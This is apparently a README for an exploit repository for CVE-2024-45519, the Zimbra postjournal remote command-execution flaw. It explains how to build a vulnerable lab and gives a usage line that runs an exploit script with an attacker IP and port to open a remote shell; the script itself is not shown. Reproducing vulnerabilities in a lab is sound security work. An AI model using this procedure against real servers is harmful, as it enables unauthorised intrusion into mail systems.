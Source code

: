 # CVE-2024-45519 - Zimbra Postjournal Exploit Setup 🛠️

![](img/zimbra_rce.png)

## Description ⚠️
CVE-2024-45519 is a vulnerability in Zimbra Collaboration (ZCS) that allows unauthenticated users to execute commands through the `postjournal` service. This guide walks you through setting up a lab environment to reproduce the issue and execute the exploit.

## Affected Versions 🐛
- **Joule**: version 8.8.15  
- **Kepler**: version 9.0.0  
- **Daffodil**: versions 10.0.x before 10.0.9  
- **Daffodil**: version 10.1.0  

## Lab Setup 🖥️

1. **Prepare the test environment**  
   Make sure you're running Ubuntu 20.04.6 LTS (Focal Fossa) on your lab machine.  
   Example test environment: Ubuntu 20.04.6 LTS.

2. **Download Zimbra**  
   Run the following commands to download and extract the Zimbra Collaboration package:
   ```bash
   sudo su
   wget https://files.zimbra.com/downloads/8.8.15_GA/zcs-NETWORK-8.8.15_GA_4177.UBUNTU20_64.20211112014220.tgz
   tar -xvzf zcs-NETWORK-8.8.15_GA_4177.UBUNTU20_64.20211112014220.tgz
   cd zcs-NETWORK-8.8.15_GA_4177.UBUNTU20_64.20211112014220
   ```

3. **Configure hostname**  
   Set the hostname to `zimbra.labo`:
   ```bash
   hostnamectl set-hostname zimbra.labo
   ```

4. **Install Zimbra**  
   Follow the installation guide here 👉 [Zimbra Installation Guide](https://zimbra.github.io/installguides/latest/single.html#Installing_Zimbra_Collaboration_Software).  
   Do **not** use Zimbra's package repository when prompted. Select **No** for that option.

5. **Replace the vulnerable `postjournal` binary**  
   Kill the running `postjournal` process and replace the binary with the vulnerable one:
   ```bash
   sudo pkill postjournal
   dpkg-deb -x packages/zimbra-core_8.8.15.GA.4177.UBUNTU20.64_amd64.deb /tmp/zimbra-core
   sudo cp /tmp/zimbra-core/opt/zimbra/libexec/postjournal /opt/zimbra/libexec/postjournal
   ```

6. **Enable and restart Zimbra services**  
   Log in as the `zimbra` user and enable the `postjournal` service:
   ```bash
   sudo su - zimbra
   zmlocalconfig -e postjournal_enabled=true
   zmcontrol restart
   ```

## Exploit Usage 🚀

Once the lab is set up and running, you can use the exploit to take advantage of the vulnerability.

### Steps:

1. **Prepare the exploit**  
   Ensure the exploit script (which we assume you've already prepared) targets the correct IP address and port.

2. **Run the exploit**  
   Execute the exploit to target the vulnerable Zimbra instance. For example, using your script:
   ```bash
   python exploit.py <target> -lh <attacker-ip> -lp <attacker-port> -p <smtp-port>
   ```

3. **Enjoy your shell**  
   Once the exploit successfully connects, you'll have command execution on the Zimbra server! 🎉

## References 🔗
- [Zimbra CVE-2024-45519 - Cyberveille eSante](https://cyberveille.esante.gouv.fr/alertes/zimbra-cve-2024-45519-2024-10-02)  
- [Zimbra Remote Code Execution Blog - ProjectDiscovery](https://blog.projectdiscovery.io/zimbra-remote-code-execution/)  


## Disclaimer ⚠️

This exploit and guide are for educational purposes only. Use this information responsibly and only on systems you have explicit permission to test. Unauthorized exploitation of systems is illegal and unethical. The authors and contributors are not responsible for any misuse or damage caused by this information.